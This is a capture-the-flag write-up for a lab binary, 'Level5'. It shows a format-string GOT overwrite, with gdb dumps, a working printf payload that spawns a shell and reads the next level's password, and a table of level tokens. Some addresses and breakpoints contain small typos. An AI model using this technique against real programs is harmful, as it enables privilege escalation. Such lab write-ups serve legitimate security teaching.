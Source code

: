 # Level5 - Format string vulnerability - Code redirection with GOT Overwrite

## Local script usage

```shell
Usage: ./main.sh
```

## Passwords and token

|        |                                                                    |
| ------ | ------------------------------------------------------------------ |
| level5 | `0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a` |
| level6 | `d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31` |

## Steps to resolve on VM

Note: We will use `gdb-peda`. You can setup peda with the script: [scripts/installPeda.sh](../../scripts/installPeda.sh)

Execute level5

```shell
./level5
(stdin) abcdef
> abcdef
```

Seems to be like previous levels.

Lets debug the binary

```shell
(gdb) info functions

> (...)
  0x080484a4  o
  0x080484c2  n
  0x08048504  main
  (...)
```

```shell
gdb-peda$ pdisas main
  0x0804850a <+6>:     call   0x80484c2 <n>                     # call n()

gdb-peda$ pdisas o
  0x080484aa <+6>:     mov    DWORD PTR [esp],0x80485f0         # 0x80485f0: "/bin/sh"
  0x080484b1 <+13>:    call   0x80483b0 <system@plt>            # call system("/bin/sh")
  0x080484b6 <+18>:    mov    DWORD PTR [esp],0x1
  0x080484bd <+25>:    call   0x8048390 <_exit@plt>             # call _exit(1)

gdb-peda$ pdisas n
  0x080484cb <+9>:     mov    eax,ds:0x8049848                  # 0x8049848 <stdin@@GLIBC_2.0>
  0x080484d0 <+14>:    mov    DWORD PTR [esp+0x8],eax
  0x080484d4 <+18>:    mov    DWORD PTR [esp+0x4],0x200
  0x080484dc <+26>:    lea    eax,[ebp-0x208]
  0x080484e2 <+32>:    mov    DWORD PTR [esp],eax
  0x080484e5 <+35>:    call   0x80483a0 <fgets@plt>             # call fgets(buf, 0x200, stdin)
  0x080484ea <+40>:    lea    eax,[ebp-0x208]
  0x080484f0 <+46>:    mov    DWORD PTR [esp],eax
  0x080484f3 <+49>:    call   0x8048380 <printf@plt>            # call printf(buf)
  0x080484f8 <+54>:    mov    DWORD PTR [esp],0x1
  0x080484ff <+61>:    call   0x80483d0 <exit@plt>              # call exit(1)
```

We need to call `o`-function that creates a new shell.

n() calls exit(1) at the end of his routine. It means that we never return to main() ! So, what do we do now ? Well, we’ll use a trick called GOT Overwrite.

Basically, when the program is executed, the GOT (Global Offset Table) is initialized for every external functions (like libc functions). By doing so, the executable will cache the memory address in the GOT, so that it doesn’t have to ask libc each time an external function is called.

The goal here will be to overwrite the address of exit() in the GOT with the address of o(). There are 4 steps here :

- Find the address of o()
- Find the address of exit() in GOT
- Find the offset of our string on the stack
- Write the proper exploit string

Let’s find the address of exit() and o()

```shell
# Get exit-syscall address
objdump -R ~/level5 | grep exit
> 08049828 R_386_JUMP_SLOT   _exit
  08049838 R_386_JUMP_SLOT   exit

# Get o-function address
objdump -t ~/level5 | grep -w o
> 080484a4 g     F .text  0000001e              o
```

It means we want to write the value `0x080484a4` at the address of exit: `0x08049838`

We need to know the buffer address.

```bash
gdb-peda$ b *p+54 # just after printf
gdb-peda$ run <<< AAAA
[------------------------------------stack-------------------------------------]
0000| 0xbffff430 --> 0xbffff440 ("AAAA\n")
0004| 0xbffff434 --> 0x200
0008| 0xbffff438 --> 0xb7fd1ac0 --> 0xfbad2088
0012| 0xbffff43c --> 0xb7ff37d0 (<__libc_memalign+16>:  add    ebx,0xb824)
0016| 0xbffff440 ("AAAA\n")
[------------------------------------------------------------------------------]
```

The buffer pointer is 4 addresses before the printf argument.

As `0x080484a4` is a big value, instead of print this value, we will split this integer with two short integers:

- High-order bytes: `0x0804` will be written at `0x08040838 + 2`
- Low-order bytes: `0x84a4` will be written at `0x08040838`

Basically, our format string should be something like:

```
ADDRESS_1 + ADDRESS_2 + %<VALUE_1>x + %4$hn +  %<VALUE_2>x + %5$hn
   _____________________________________|                      |
   |           ________________________________________________|
   |           |
ADDRESS_1 + ADDRESS_2 + %<VALUE_1>x + %4$hn +  %<VALUE_2>x + %5$hn
   |           |            |                       |
0x0804083a 0x08040838  (0x0804 - 8)         (0x84a4 - 0x0804)

=> "\x3a\x98\x04\x08" + "\x38\x98\x04\x08" + "%2044x" + "%4$hn" + "%31904x" + "%5$hn"
```

> \_Note: VALUE_1 has to be greater than VALUE_2. Otherwise, switch addresses

Lets confirm that:

```bash
gdb-peda$ b *n+54 # after printf
> Breakpoint 1 at 0x80484f8

gdb-peda$ run < <(python -c 'print "\x3a\x98\x04\x08" + "\x38\x98\x04\x08" + "%2044x" + "%4$hn" + "%31904x" + "%5$hn"')
[------------------------------------stack-------------------------------------]
0000| 0xbffff420 --> 0xbffff430 --> 0x804983a --> 0x53e00804
0004| 0xbffff424 --> 0x200
0008| 0xbffff428 --> 0xb7fd1ac0 --> 0xfbad2088
0012| 0xbffff42c --> 0xb7ff37d0 (<__libc_memalign+16>:	add    ebx,0xb824)
0016| 0xbffff430 --> 0x804983a --> 0x53e00804                    # <----- %4$hn
0020| 0xbffff434 --> 0x8049838 --> 0x80484a4 (<o>:	push   ebp)  # <----- %5$hn
0024| 0xbffff438 ("%2044x%4$hn%31904x%5$hn\n")
[------------------------------------------------------------------------------]

gdb-peda$ x/x 0x8049838
> 0x8049838 <exit@got.plt>:	0x080484a4 # Perfect ! It contains our address

gdb-peda$ continue
> [New process 27345]
  process 27345 is executing new program: /bin/dash
  (...)
```

We perfectly overwritted the address of exit in the Global Offset Table. The new shell has been created but without setuid.
Let's try without gdb

```shell
python -c 'print "\x3a\x98\x04\x08" + "\x38\x98\x04\x08" + "%2044x" + "%4$hn" + "%31904x" + "%5$hn"' > /tmp/exploit5
cat /tmp/exploit5 - | ~/level5

$ whoami
> level6
$ cat /home/user/level6/.pass
> d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

---

## Sources

### Format string vulnerability

- [Memory segmentation - Cheat sheet](https://www.0x0ff.info/wp-content/uploads/2015/12/buffer-overflow-memory-segmentation-cheat-sheet.png)
- [Exploit 101 - Format Strings](https://axcheron.github.io/exploit-101-format-strings/)

### Shell

- [Man fgets](https://linux.die.net/man/3/fgets)
- [Man printf](https://linux.die.net/man/3/printf)
- [Man system](https://linux.die.net/man/3/system)
- [Man exit](https://linux.die.net/man/3/exit)
- [Man \_exit](https://linux.die.net/man/2/_exit)
